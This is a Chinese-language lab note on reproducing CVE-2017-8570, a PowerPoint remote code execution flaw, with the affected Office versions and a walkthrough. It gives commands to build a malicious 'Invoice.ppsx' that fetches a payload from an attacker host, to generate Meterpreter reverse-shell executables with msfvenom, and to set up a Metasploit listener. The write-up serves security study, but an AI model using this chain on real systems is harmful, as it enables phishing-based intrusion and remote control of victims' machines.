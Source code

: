 ```yaml
---
date: 2025-10-09
category:
  - 网络安全
  - 网络钓鱼
tags:
  - 钓鱼附件
  - Office
  - Office漏洞
  - CVE-2017-8570
excerpt: 由于 Microsoft Office 处理内存对象的方式存在远程代码执行漏洞，又称“Microsoft Office 远程代码执行漏洞”。此 CVE ID 与 CVE-2017-0243 不同。
---
```


# CVE-2017-8570

> [Office CVE-2017-8570 远程代码执行漏洞复现 | 国光 (sqlsec.com)](https://www.sqlsec.com/2017/08/officecve.html#复现环境)
>
> [手冢冢/Office8570：CVE20178570 --- tezukanice/Office8570: CVE20178570 (github.com)](https://github.com/tezukanice/Office8570)
>
> ---
>
> [Office CVE-2017-8570漏洞复现-CSDN博客](https://blog.csdn.net/weixin_44283446/article/details/122035825)
>
> ---
>
> [Office CVE-2017-8570 复现 - X1r0z Blog (exp10it.io)](https://exp10it.io/2019/08/office-cve-2017-8570-复现/)
>
> [Office CVE-2017-8570远程代码执行漏洞复现-腾讯云开发者社区-腾讯云 (tencent.com)](https://cloud.tencent.com/developer/article/1047572)
>
> [CVE-2017-8570复现及编写脚本实现自动化 - 先知社区 (aliyun.com)](https://xz.aliyun.com/t/3772?time__1311=n4%2BxnD0DBDgDuADcQxlhAe0%3DePiKG%3D8OYss14D&alichlgref=https%3A%2F%2Fwww.google.com%2F)
>
> ---
>
> [CVE-2017-8570 自动化 - Y4er的博客](https://y4er.com/posts/cve-2017-8570/)

- 测试环境: Win7+Office2016

---

## 简介

2017年7月，微软在例行的阅读补丁中修复了多个Microsoft Office漏洞，其中的CVE-2017-8570漏洞为一个逻辑漏洞。网上公布了利用代码，影响范围广泛。

该漏洞为Microsoft Office的一个远程代码执行漏洞。其成因是Microsof PowerPoint执行时会初始化“script”Moniker对象，而在PowerPoint播放动画期间会激活该对象，从而执行sct脚本(Windows script Component)文件。

可以欺骗用户运行含有该漏洞的PPT文件导致获取和当前登录用户相同的执行权限。

---

## 影响版本

```
Microsoft Office 2007 Service Pack 3
Microsoft Office 2010 Service Pack 2 (32-bit editions)
Microsoft Office 2010 Service Pack 2 (64-bit editions)
Microsoft Office 2013 RT Service Pack 1
Microsoft Office 2013 Service Pack 1 (32-bit editions)
Microsoft Office 2013 Service Pack 1 (64-bit editions)
Microsoft Office 2016 (32-bit edition)
Microsoft Office 2016 (64-bit edition)
```

---

## 复现

- 攻击机
  - IP: `100.1.1.131`
  - `python 2.7`

- 靶机
  - IP: `192.168.5.11`
  - win7
  - Office2016


```bash
git clone https://github.com/tezukanice/Office8570.git
```

调整目录结构, 将 `template.ppsx` 放到 template 目录下

![image-20240613151844277](http://cdn.ayusummer233.top/DailyNotes/202406131518648.png)

```bash
# 生成恶意 PPSX 文件
python2 cve-2017-8570_toolkit.py -M gen -w Invoice.ppsx -u http://100.1.1.131/logo.doc
```

![image-20240613152038446](http://cdn.ayusummer233.top/DailyNotes/202406131520504.png)

准备反弹Shell的exe文件

```bash
# 用 msf 的话
msfvenom -p windows/meterpreter/reverse_tcp LHOST=100.1.1.131 LPORT=6666 -f exe > shell.exe
## 若是 64 位操作系统的话
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.0.0.103 LPORT=6666 -f exe > shell.exe
```

将 `shell.exe` 放到项目目录下

![image-20240613152724555](http://cdn.ayusummer233.top/DailyNotes/202406131527625.png)

```bash
# 监听来自 ppsx 执行反弹 shell(ps:需要root权限)
python2 cve-2017-8570_toolkit.py -M exp -e http://100.1.1.131/shell.exe -l shell.exe
```

![image-20240613153318546](http://cdn.ayusummer233.top/DailyNotes/202406131533607.png)

```bash
# 用 msf 的话这里要设置 msf 监听
use exploit/multi/handler
set LHOST 100.1.1.131
set LPORT 6666
## for x86
set PAYLOAD windows/meterpreter/reverse_tcp
## for x64
set PAYLOAD windows/x64/meterpreter/reverse_tcp
exploit
```

将 Invoice.ppsx 放在靶机上用 PowerPoint 打开

![image-20240613153813982](http://cdn.ayusummer233.top/DailyNotes/202406131538069.png)

![image-20240613153916159](http://cdn.ayusummer233.top/DailyNotes/202406131539299.png)

![image-20240613154044274](http://cdn.ayusummer233.top/DailyNotes/202406131540452.png)

![image-20240613154205635](http://cdn.ayusummer233.top/DailyNotes/202406131542715.png)

---



















